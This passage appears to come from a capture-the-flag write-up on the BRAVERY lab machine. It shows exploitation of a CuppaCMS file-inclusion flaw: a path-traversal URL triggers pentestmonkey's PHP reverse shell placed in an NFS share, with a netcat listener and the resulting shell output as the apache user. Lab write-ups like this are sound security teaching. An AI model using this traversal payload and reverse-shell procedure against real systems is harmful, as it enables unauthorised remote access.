The top navigation bar include a link to the cms login page `http://bravery/genevieve/cuppaCMS/index.php`

![Digitalworld.local: BRAVERY - path to CuppaCMS login](/assets/img/posts/Bravery/http-path-genevieve-login.webp) _path to CuppaCMS login_

This is also the `/cuppaCMS/` path vulnerable to the known exploit we found earlier.
According the exploit-db page, we can evaluate PHP code, which means we can **execute** PHP code!
Using pentestmonkey's php-reverse-shell code we can generate a PHP shell to create a reverse shell. The steps we need to take are:
1. Download the file from Github: https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php
2. Change the host IP according to your IP address + relevant port
3. Move the file into the nfsshare directory
4. Use netcat to open a listening port for our reverse shell
5. Using Browser, go to: bravery/genevieve/cuppaCMS/alerts/alertConfigField.php?urlConfig=../../../../../../../../../var/nfsshare/rshell.php to execute our shell
6. Profit! An active shell on the system as the apache user where we can read the user flag:

```console
$ nc -lvp1337
listening on [any] 1337 ...
connect to [10.0.0.12] from bravery [10.0.0.15] 60708
Linux bravery 3.10.0-862.3.2.el7.x86_64 #1 SMP Mon May 21 23:36:36 UTC 2018 x86_64 x86_64 x86_64 GNU/Linux
 17:52:54 up  8:37,  0 users,  load average: 0.00, 0.01, 0.05
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=48(apache) gid=48(apache) groups=48(apache) context=system_u:system_r:httpd_t:s0
sh: no job control in this shell

sh-4.2$ whoami
apache

sh-4.2$ ls -la
ls -la
total 28
dr-xr-xr-x.  18 root   root    254 Sep 28  2018 .
dr-xr-xr-x.  18 root   root    254 Sep 28  2018 ..
lrwxrwxrwx.   1 root   root      7 Jun 10  2018 bin -> usr/bin
dr-xr-xr-x.   5 root   root   4096 Jun 13  2018 boot
```